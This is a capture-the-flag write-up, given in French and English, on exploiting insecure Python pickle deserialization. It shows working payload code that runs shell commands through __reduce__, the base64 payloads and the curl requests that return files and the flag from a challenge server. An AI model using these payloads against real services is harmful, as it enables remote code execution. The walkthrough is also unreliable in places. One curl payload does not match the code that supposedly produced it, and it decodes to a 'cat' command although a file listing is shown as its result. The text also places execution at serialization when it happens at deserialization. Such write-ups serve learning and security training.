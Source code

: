 # Pickleback shot Lv1

## Write-up (français)

Ce défi consiste à utiliser le mécanisme de sérialisation avec le module `pickle` en Python afin d'extraire le contenu d'un fichier.

Dans un premier temps, nous pouvons aller voir la liste des différents fichiers disponibles dans l'environnement.

Pour lister les fichiers du dossier, nous devons écrire du code Python qui imprime, sous format base64, une classe qui, lors de sa sérialisation, exécutera une commande système permettant de lister les fichiers présents dans le dossier.

```py
import subprocess
import pickle
import base64

class ListFiles:
    def __reduce__(self):
        return (subprocess.getoutput, ('ls', ))

if __name__ == '__main__':
    pickled = pickle.dumps(ListFiles())
    print(base64.urlsafe_b64encode(pickled))
```

Ce qui donnera une chaîne en base64 représentant l'objet `ListFiles` une fois sérialisé.

La valeur obtenue sera :
```
gASVJQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMAmxzlIWUUpQu
```

Lorsque l'on envoie ces données au serveur, on reçoit la liste des fichiers.
```
curl -X GET -d "data=gASVOQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMFmNhdCBjb2NrdGFpbF9nbGFzcy50eHSUhZRSlC4=" http://<IP>:<PORT>/get_glass

app.py
cocktail_glass.txt
cup.txt
mug.txt
pilsner_glass.txt
pint_glass.txt
shot_glass.txt
```

En se demandant si un pickleback-shot serait servi dans l'un de ces verres, on peut supposer que cela devrait se trouver dans un verre à shot, en se basant sur le nom de la boisson.

Nous pouvons ensuite écrire un deuxième code pour afficher le contenu du fichier à l'aide de la fonction `cat`.

```py
import subprocess
import pickle
import base64

class ExtractGlass:
    def __reduce__(self):
        return (subprocess.getoutput, ('cat shot_glass.txt',))

if __name__ == '__main__':
    pickled = pickle.dumps(ExtractGlass())
    print(base64.urlsafe_b64encode(pickled))
```

Cela nous donne la chaîne de caractère suivante:
```
gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMEmNhdCBzaG90X2dsYXNzLnR4dJSFlFKULg==
```

Ainsi, lorsque l'on envoie cette chaîne au serveur :
```
curl -X GET -d "data=gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMEmNhdCBzaG90X2dsYXNzLnR4dJSFlFKULg==" http://<IP>:<PORT>/get_glass

flag-R1p_a_Gl@ss_wIth0uT_L1quiD
```


## Write-up (english)

This challenge involves using the serialization mechanism with the `pickle` module in Python to extract the content of a file.

Firstly, we can go and see the list of different files available in the environment.

To list the files in the directory, we need to write Python code that prints, in base64 format, a class which, upon serialization, will execute a system command to list the files present in the directory.

```py
import subprocess
import pickle
import base64

class ListFiles:
    def __reduce__(self):
        return (subprocess.getoutput, ('ls', ))

if __name__ == '__main__':
    pickled = pickle.dumps(ListFiles())
    print(base64.urlsafe_b64encode(pickled))
```

This will result in a base64-encoded string representing the serialized `ListFiles` object.

The obtained value will be:
```
gASVJQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMAmxzlIWUUpQu
```

When sending these data to the server, we receive the list of files.
```
curl -X GET -d "data=gASVOQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMFmNhdCBjb2NrdGFpbF9nbGFzcy50eHSUhZRSlC4=" http://<IP>:<PORT>/get_glass

app.py
cocktail_glass.txt
cup.txt
mug.txt
pilsner_glass.txt
pint_glass.txt
shot_glass.txt
```

Wondering if a pickleback shot would be served in one of these glasses, we can assume that it should be found in a shot glass, based on the name of the drink.

We can then write a second code to display the file's content using the `cat` function.
```py
import subprocess
import pickle
import base64

class ExtractGlass:
    def __reduce__(self):
        return (subprocess.getoutput, ('cat shot_glass.txt',))

if __name__ == '__main__':
    pickled = pickle.dumps(ExtractGlass())
    print(base64.urlsafe_b64encode(pickled))
```

The obtained value will be:
```
gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMEmNhdCBzaG90X2dsYXNzLnR4dJSFlFKULg==
```

Thus, when sending this string to the server:
```
curl -X GET -d "data=gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMEmNhdCBzaG90X2dsYXNzLnR4dJSFlFKULg==" http://<IP>:<PORT>/get_glass

flag-R1p_a_Gl@ss_wIth0uT_L1quiD
```

## Flag

```
flag-R1p_a_Gl@ss_wIth0uT_L1quiD
```